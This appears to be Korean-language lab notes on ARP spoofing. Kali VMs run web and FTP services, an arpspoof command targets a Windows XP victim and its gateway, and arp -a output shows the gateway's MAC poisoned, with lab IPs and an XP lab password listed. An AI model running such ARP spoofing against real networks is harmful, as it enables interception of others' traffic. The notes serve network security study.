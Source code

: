 

### @Kali#1에 apache2, vsftp 서비스를 실행

```
# service apache2 start
# service vsftpd start
```

- @Kali#2에서 Kali#1으로 웹 서비스 요청과 FTP 서비스 요청을 할 수 있음



### **ARP(Address Resolution Protocol)**

![img](https://lh4.googleusercontent.com/gNorySXCV9KgeFxblTtrOYHVOS_9W0XH-zhw5ZB8r2x9VwUtpIYwPqeA9mUmE25ORCc3EJG5qSU5cBpzVF5TQtIlC1rcUO27Q86_VkXyXk4t5onAeaiW9MHVENyvXa4MkaR8Y9fP)

![img](https://lh5.googleusercontent.com/zgtM7Y-8YhqXNC95jZTko0n2ewsPEAdfvP44-E3wdrTwUidm6Mc15Zdi3kSbXQ2u5xilpcrffwibDs36jOZ5ds_5ME4C6LXTVSh4eRYaYSJOKMW9O7bghYP1IQ9CUUCCU4KvQh2b)

- windows xp : administrator / 0sook (숫자0 영문자sook)

​        IP Address. . . . . . . . . . . . : 192.168.111.140

​        Subnet Mask . . . . . . . . . . . : 255.255.255.0

​        Default Gateway . . . . . . . . . : 192.168.111.2

- Kali#1 : 192.168.111.130

- Kali#2 : 192.168.111.131



### ARP Spoofing

##### [@Kali2 ]

```
# arpspoof -i eth0 -t VICTIM_IP(WINXP) GATEWAY_IP

⇒ # arpspoof -i eth0 -t 192.168.111.140 192.168.111.2
```

```
C:\Documents and Settings\Administrator>arp -a

Interface: 192.168.111.140 --- 0x2

  Internet Address      Physical Address      Type

  192.168.111.2         00-50-56-fd-f9-c0     dynamic
```

```
C:\Documents and Settings\Administrator>arp -a

Interface: 192.168.111.140 --- 0x2

  Internet Address      Physical Address      Type

  192.168.111.2         00-50-56-34-96-a1     dynamic

  192.168.111.131       00-50-56-34-96-a1     dynamic
```
